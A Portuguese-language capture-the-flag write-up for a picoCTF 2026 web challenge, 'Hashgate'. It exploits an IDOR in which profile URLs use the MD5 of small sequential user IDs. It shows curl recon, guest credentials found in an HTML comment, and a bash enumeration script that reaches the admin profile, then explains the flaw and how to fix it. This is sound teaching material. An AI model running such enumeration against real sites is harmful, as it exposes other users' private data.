

# Hashgate | picoCTF 2026 (CyLab Academy)

`web` `idor` `md5` `brute-force` `curl`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2026 |
| **Plataforma (hoje)** | CyLab Academy (`cylabacademy.net`) |
| **Categoria** | Web Exploitation |
| **Dificuldade / pontos** | Medium |
| **Autor do desafio** | Yahaya Meddy |
| **Resolvido / revalidado em** | 2026-11-02 |

## TL;DR

O perfil fica em `/profile/user/<md5(id)>`, onde `id` é um número sequencial — e o endpoint **nem exige login**. Logar como guest (credenciais vazadas num comentário HTML) redireciona para `/profile/user/md5(3000)`, revelando o esquema. Como o ID é um inteiro pequeno e previsível, calculo `MD5` de cada ID numa faixa e acesso os perfis. O ID do `admin` devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** passar um identificador sequencial por uma função de hash **não** o torna secreto. Se o conjunto de entradas é pequeno e previsível, dá para pré-computar todos os hashes. É um IDOR com uma camada de ofuscação.

> [!WARNING]
> O ID do admin **muda a cada instância** (na minha validação de 2026-11-02 era `3016`; o writeup antigo tinha `3013`). O sufixo da flag também muda. O método é idêntico.

## Enunciado

> You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn't directly exposed doesn't mean it's secure. Maybe someone forgot that obscurity isn't security... Can you find your way into the admin's profile for this organisation and capture the flag?

**Dicas oficiais:**

> 1. Notice anything about how the ID is being checked? It's not plain text… maybe a one-way function is involved.
> 2. There are about 20 employees in this organisation.

**Instância:** aplicação web (host e porta gerados pela plataforma).

## Dicas progressivas

<details><summary>Dica 1</summary>Veja o fonte da página de login — tem um comentário HTML com credenciais de guest.</details>
<details><summary>Dica 2</summary>Ao logar, o redirect leva a <code>/profile/user/&lt;hash&gt;</code>. Esse hash é o <code>MD5</code> do seu ID numérico (guest = 3000).</details>
<details><summary>Dica 3</summary>Os IDs são sequenciais e há poucos funcionários, e o endpoint do perfil não checa autenticação. Faça <code>MD5</code> de cada ID vizinho e acesse <code>/profile/user/&lt;hash&gt;</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `bash`, `curl` e `md5sum`.

Na minha instância o alvo estava em `http://xebec.cylabacademy.net:16152`. Use o da sua.

***INSERIR no terminal — Kali (atacante)

```bash
export BASE_URL=http://xebec.cylabacademy.net:16152
```

## Resolução

### 1. Recon da página de login

O fonte da página de login traz um comentário com credenciais de teste e o form envia um POST JSON para `/login`:

***INSERIR no terminal — Kali (atacante)

```bash
curl -s $BASE_URL/ | grep -i -A1 -B1 "Email:"
```

```text
  <!-- Email: guest@cylabacademy.org Password: guest -->
```

### 2. Descobrindo o esquema do perfil

Logando com essa conta, o servidor responde `302` e redireciona para o meu perfil — a URL termina num hash de 32 caracteres hexadecimais:

***INSERIR no terminal — Kali (atacante)

```bash
curl -s -i -X POST $BASE_URL/login -H 'Content-Type: application/json' --data '{"email":"guest@cylabacademy.org","password":"guest"}' | grep -i location
```

```text
Location: /profile/user/e93028bdc1aacdfb3687181f2031765d
```

Esse hash é `md5("3000")` — ou seja, o meu ID de guest é `3000` e a URL do perfil é `/profile/user/<md5(id)>`. E acessando esse endpoint direto (sem cookie nenhum), ele responde: o controle de perfil **não exige autenticação**.

***INSERIR no terminal — Kali (atacante)

```bash
curl -s "$BASE_URL/profile/user/$(echo -n 3000 | md5sum | awk '{print $1}')"
```

```text
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
```

> [!TIP]
> **Conceito: IDOR (Insecure Direct Object Reference).** O servidor expõe um objeto (o perfil) diretamente por um identificador que o cliente controla, sem checar se aquele usuário pode vê-lo. Trocar o identificador por outro dá acesso ao objeto alheio. Passar o ID por `MD5` só troca "adivinhar o número" por "adivinhar o hash do número" — e como o número é pequeno e sequencial, o hash é igualmente previsível. Referência: [OWASP — IDOR](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References).

### 3. Enumerando os perfis até o admin

Com o ID do guest em 3000 e a dica de ~20 funcionários, basta calcular `MD5` de cada ID numa janela em volta de 3000 e acessar o perfil. Um ID inexistente responde `User not found.`, então filtro por isso.

#### `scripts/script1.sh`

```bash
#!/bin/bash
BASE_URL="${BASE_URL:-http://xebec.cylabacademy.net:16152}"

# IDs sequenciais; guest = 3000. Varro uma faixa em volta.
START_ID=2980
END_ID=3100

for id in $(seq $START_ID $END_ID); do
    hash=$(echo -n "$id" | md5sum | awk '{print $1}')   # -n: sem \n
    response=$(curl -s "$BASE_URL/profile/user/$hash")

    # Perfis inexistentes respondem "User not found."
    if ! echo "$response" | grep -qi "User not found"; then
        echo "[+] ID=$id -> $response"
        flag=$(echo "$response" | grep -oE 'academy\{[^}]+\}' | head -n 1)
        if [ -n "$flag" ]; then
            echo "[FLAG] $flag"
            exit 0
        fi
    fi
done
```

***INSERIR no terminal — Kali (atacante)

```bash
bash scripts/script1.sh
```

```text
[+] ID=3000 -> Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
[+] ID=3016 -> Welcome, admin! Here is the flag: academy{id0r_unl0ck_279XXXXX}
[FLAG] academy{id0r_unl0ck_279XXXXX}
```

O ID 3000 é o Guest; o 3016 é o `admin` e devolve a flag na própria página.

## Cadeia de ataque



## Por que funciona

O controle de acesso ao perfil do admin depende apenas de o atacante não conhecer o identificador — é segurança por obscuridade, e o endpoint sequer checa autenticação. O `MD5` do ID não é segredo: o ID é um inteiro pequeno e sequencial, então o atacante pré-computa todos os hashes possíveis em segundos. Falta a verificação de autorização ("o usuário logado tem permissão de ver este perfil?"). Classe: CWE-639 (*Authorization Bypass Through User-Controlled Key*) / IDOR.

## Remediação

- Verificar autorização no servidor: o perfil do admin só pode ser servido para o próprio admin, independentemente do identificador na URL (e o endpoint deveria exigir sessão autenticada).
- Usar identificadores não sequenciais e não adivinháveis (UUID aleatório), mas isso é defesa em profundidade, não substitui a checagem de autorização.
- Hashear um valor previsível não cria segredo. Não confundir hash com controle de acesso. E não deixar credenciais em comentários HTML.

## Lições e padrões

- **Sinais para reconhecer:** um identificador na URL (mesmo que "hasheado") + uma mensagem do tipo "você não tem privilégio" denunciam IDOR.
- **Da próxima vez eu tentaria primeiro:** olhar o fonte da página (comentários!) e a URL do meu próprio recurso, e testar enumerar vizinhos antes de qualquer coisa mais sofisticada.

## Referências

- [OWASP — Testing for IDOR](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
- [CWE-639](https://cwe.mitre.org/data/definitions/639.html)

## Flag

```text
academy{id0r_unl0ck_279XXXXX}
```
